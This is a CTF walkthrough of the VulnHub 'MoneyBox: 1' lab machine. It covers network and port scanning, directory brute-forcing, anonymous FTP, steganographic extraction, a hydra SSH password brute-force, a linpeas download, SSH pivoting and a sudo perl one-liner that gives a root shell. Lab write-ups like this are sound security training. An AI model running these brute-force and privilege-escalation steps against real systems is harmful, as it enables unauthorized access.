```yaml
---
title: "Moneybox CTF Write-up"
classes: wide
header:
  teaser: /assets/images/CTF-Writeups/Moneybox-CTF-Writeup/logo.png
ribbon: MidnightBlue
description: "We launch target machine and our kali and opened terminal as root. Check ifconfig and grab your ip address and start a scan....."
categories:
  - CTF Writeups
---
```


CTF link: 

[MoneyBox: 1](https://www.vulnhub.com/entry/moneybox-1,653/)

- We launch target machine and our kali and opened terminal as root.
- Check ifconfig and grab your ip address and start a scan.

> netdiscover -r xx.xx.xx.0/24
> 
- Pick the ip address and copy it.

We have to check ip for which ports runs which apps.

- First we check nmap

> nmap -sV -sC xx.x.x.x
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled.png)

We see that our ip runs 3 ports: ftp, ssh,http.

We should check if there is a website and what we can find there. As usual page-source should be checked.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%201.png)

Also checked page-source, there is nothing there. So we should look for hidden directories.

> gobuster dir -u [http://192.168.1.6/](http://192.168.1.6/) -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%202.png)

Check this directories, don’t forget to check page-sources.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%203.png)

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%204.png)

We check secret directory and its page-source given.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%205.png)

We found a secret key, probably a password. We had ftp and ssh port, we can try something. We should try to access ftp server as anonymous with no password first. Maybe we can find something.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%206.png)

We found a image file, and download it.

> get trytofind.jpg
> 

Maybe there is a hidden message in this image, because why not? We are trying everything.

> steghide extract -sf trytofind.jpg
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%207.png)

We entered found key “3xtr4ctd4t4” as passphrase and got a something. Check data.txt.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%208.png)

Password is weak and renu is the name. Let’s check ssh if we can find renu’s password with brute-force attack.

> hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.6
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%209.png)

We found renu’s password: “987654321”. Let’s enter ssh with these.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2010.png)

We found the first flag. Look around.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2011.png)

We found second flag. 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2012.png)

We can not cd root, we have to be root. Other user lily maybe can, but password? We can look at linpeas. Download it to /tmp/ directory.

> wget [https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2013.png)

When we check all data we see that htere is authorized keys. Renu can login ssh as lily.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2014.png)

> ssh lily@192.168.1.6
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2015.png)

We login as lily and lily can run /usr/bin/perl as root. So we can get the shell with this. 

> Source: [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)
> 

> `sudo perl -e 'exec "/bin/sh";'`
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2016.png)

Now we can cd root.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2017.png)

All done.